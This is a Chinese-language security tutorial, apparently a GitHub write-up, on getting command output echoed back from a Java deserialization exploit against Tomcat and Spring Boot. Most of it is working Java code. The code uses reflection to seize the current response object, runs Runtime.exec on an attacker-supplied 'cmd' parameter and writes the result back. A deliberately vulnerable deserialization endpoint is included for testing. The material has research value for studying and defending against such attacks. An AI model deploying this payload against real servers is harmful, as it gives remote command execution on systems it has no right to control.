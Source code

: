 # springboot-tomcat回显

<center>@Y4tacker</center>

## 简单原理

假设现在在内网环境下，只有一个反序列化漏洞并且没有OOB，如何实现回显呢？

答案是在`org.apache.catalina.core.ApplicationFilterChain`这个类中，我们可以看到如果`ApplicationDispatcher.WRAP_SAME_OBJECT`为true就会把request与response对象绑定到lastServicedRequest、lastServicedResponse中

![](img/1.png)![](img/2.png)

因此如果我们通过反射将`ApplicationDispatcher.WRAP_SAME_OBJECT`设置为true，即可通过反射获取当前请求response，并且回显内容

然而这个是被final修饰的，也很简单，[我之前写了一篇demo](https://github.com/Stakcery/JavaSec/tree/main/1.%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/%E9%80%9A%E8%BF%87%E5%8F%8D%E5%B0%84%E4%BF%AE%E6%94%B9%E7%94%A8final%E4%BF%AE%E9%A5%B0%E7%9A%84%E5%8F%98%E9%87%8F)可以看看，

因此我们梳理下思路

1、反射修改`ApplicationDispatcher.WRAP_SAME_OBJECT`，让代码逻辑走到if条件里面

2、初始化`lastServicedRequest`和`lastServicedResponse`两个变量，默认为null

3、从`lastServicedResponse`中获取当前请求response，并且回显内容。

## 实现代码--仅仅适用纯Tomcat场景下

```java
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
    Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
    Field modifiersField = Field.class.getDeclaredField("modifiers");
    modifiersField.setAccessible(true);
    modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
    WRAP_SAME_OBJECT_FIELD.setAccessible(true);
    lastServicedRequestField.setAccessible(true);
    lastServicedResponseField.setAccessible(true);

    ThreadLocal<ServletResponse> lastServicedResponse =
            (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);
    ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
    boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);
    String cmd = lastServicedRequest != null
            ? lastServicedRequest.get().getParameter("cmd")
            : null;
    if (!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null) {
        lastServicedRequestField.set(null, new ThreadLocal<>());
        lastServicedResponseField.set(null, new ThreadLocal<>());
        WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
    } else if (cmd != null) {

        ServletResponse responseFacade = lastServicedResponse.get();
        responseFacade.getWriter();
        java.io.Writer w = responseFacade.getWriter();

        InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        w.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
        w.flush();
    }
```

Ok，如果只是单纯在tomcat里这里是没有任何问题的，我也在tomcat环境下写了一个jsp测试过，但是接下到了spring的环境下却出了问题，具体是为什么请看下文

## 结合SpringBoot测试

引入依赖

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

加个反序列化功能

```java
@ResponseBody
@RequestMapping("/demo")
public String demo(HttpServletRequest request, HttpServletResponse response) throws Exception{
        try {
            String input = request.getParameter("test");
            byte[] b = new sun.misc.BASE64Decoder().decodeBuffer(input);
            java.io.ObjectInputStream ois = new java.io.ObjectInputStream(new java.io.ByteArrayInputStream(b));
            ois.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return "This is OK Demo!";
}
```

简单发包，出错了

![](img/error.png)

出错的原因是在最后一行

![](img/error2.png)

为什么呢，我们来看这部分的调用栈

```
getOutputStream:548, Response (org.apache.catalina.connector)
getOutputStream:210, ResponseFacade (org.apache.catalina.connector)
getBody:97, ServletServerHttpResponse (org.springframework.http.server)
writeInternal:126, StringHttpMessageConverter (org.springframework.http.converter)
writeInternal:44, StringHttpMessageConverter (org.springframework.http.converter)
write:227, AbstractHttpMessageConverter (org.springframework.http.converter)
writeWithMessageConverters:293, AbstractMessageConverterMethodProcessor (org.springframework.web.servlet.mvc.method.annotation)
handleReturnValue:183, RequestResponseBodyMethodProcessor (org.springframework.web.servlet.mvc.method.annotation)
handleReturnValue:78, HandlerMethodReturnValueHandlerComposite (org.springframework.web.method.support)
```

在这里`this.usingWriter`的原因

![](img/error3.png)

必须要是false才行，但是为什么会是true呢

原因在调用`java.io.Writer w = responseFacade.getWriter();`

的时候设置为true

![](img/getWriter.png)

因此spring的日志当中才会出现这个原因导致无输出了

```
 nested exception is java.lang.IllegalStateException: getWriter() has already been called for this response] 
```

那么我们就通过反射修改这个值即可

## 最终实现

```java
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
    Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
    Field modifiersField = Field.class.getDeclaredField("modifiers");
    modifiersField.setAccessible(true);
    modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
    modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
    WRAP_SAME_OBJECT_FIELD.setAccessible(true);
    lastServicedRequestField.setAccessible(true);
    lastServicedResponseField.setAccessible(true);

    ThreadLocal<ServletResponse> lastServicedResponse =
            (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);
    ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
    boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);
    String cmd = lastServicedRequest != null
            ? lastServicedRequest.get().getParameter("cmd")
            : null;
    if (!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null) {
        lastServicedRequestField.set(null, new ThreadLocal<>());
        lastServicedResponseField.set(null, new ThreadLocal<>());
        WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
    } else if (cmd != null) {

        ServletResponse responseFacade = lastServicedResponse.get();
        responseFacade.getWriter();
        java.io.Writer w = responseFacade.getWriter();
        Field responseField = ResponseFacade.class.getDeclaredField("response");
        responseField.setAccessible(true);
        Response rp = (Response) responseField.get(responseFacade);
        Field usingWriter = Response.class.getDeclaredField("usingWriter");
        usingWriter.setAccessible(true);
        usingWriter.set((Object) rp, Boolean.FALSE);

        InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        w.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
        w.flush();
    }
```

![](img/success.png)
